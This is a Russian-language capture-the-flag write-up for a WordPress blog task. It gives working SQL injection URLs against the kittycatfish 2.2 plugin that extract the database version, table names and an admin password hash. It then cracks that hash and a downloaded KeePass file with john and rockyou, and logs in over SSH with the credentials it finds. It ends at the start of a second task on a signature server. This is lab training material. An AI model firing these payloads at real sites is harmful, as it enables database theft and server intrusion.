 ### Description

Один из сотрудников противника решил создать свой личный блог, однако сразу после создания забросил данную идею.
Разведке удалось найти данный блог. Необходимо получить удаленный доступ к серверу-хосту сайта.

### Hint

Наши специалисты обнаружили, что полученные данные можно сбрутить через словарь rockyou

### Writeup

1) Первый способ получения пароля (SQLi)

```
http://100.64.X.187/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,(select%20@@version)

http://100.64.X.187/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,(SELECT%20GROUP_CONCAT(table_name)%20FROM%20information_schema.tables%20WHERE%20table_schema=database())

http://100.64.X.187/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16%20union%20select%200x6b635f61645f637373,(SELECT%20CONCAT(user_login,0x3d,user_pass)%20FROM%20wp_users%20LIMIT%200,1)
```

```
admin=$P$BsXjMDUySIPK363fK6EvyPLOHJhunU0
john ./hash.txt --wordlist rockyou.txt
```

2) Второй способ получения пароля

Перейти по адресу `http://100.64.x.187/wp-content/uploads/` и скачать файл `dbs.kdbx`

Выполнить:
```
keepass2john dbs.kdbx > hash2.txt
john ./hash2.txt
```

3) Перейти в админку WP и найти пользователя Shaggy Rogers. Подключиться по ssh с именем пользователя `shaggy` и паролем `scooby`. Выполнить `cat /flag.txt`



## Электронная цифровая подпись - 200 баллов

`IP:100.64.X.161`


### Description

Противник развернул свой сервер электронной цифровой подписи, для того, чтобы оптимизировать систему электронного документооборота.

### Hint
